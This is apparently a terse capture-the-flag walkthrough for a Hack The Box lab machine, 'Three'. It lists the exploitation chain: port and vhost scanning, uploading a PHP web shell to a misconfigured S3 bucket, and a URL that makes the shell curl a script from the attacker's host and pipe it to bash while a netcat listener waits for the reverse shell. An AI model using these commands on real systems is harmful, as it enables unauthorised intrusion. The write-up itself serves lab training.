








# 1.Port Scan
ip=10.129.227.248
`nmap -sC -sV -p- $ip`

# 2.Thetoppers.htb connect
`sudo vim /etc/hosts`

# 3 SubDirectory Search
`gobuster vhost -w /home/kali/Three/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -u http://thetoppers.htb` 

# 4 AWS Service

 
 ##  Shellscript Upload

**http://thetoppers.htb/shell.php?cmd=id**

## use sh
`aws --endpoint=http://s3.thetoppers.htb s3 cp test.sh s3://thetoppers.htb`

## use php
`aws --endpoint=http://s3.thetoppers.htb s3 cp shell.php s3://thetoppers.htb` 

## AWS Connect
`python3 -m http.server 8080`

`sudo nc -lvnp 443`

## URL Request
**http://thetoppers.htb/shell.php?cmd=curl%2010.10.16.8:8080/test.sh|bash**

## 5 AWS Connect&Flag get

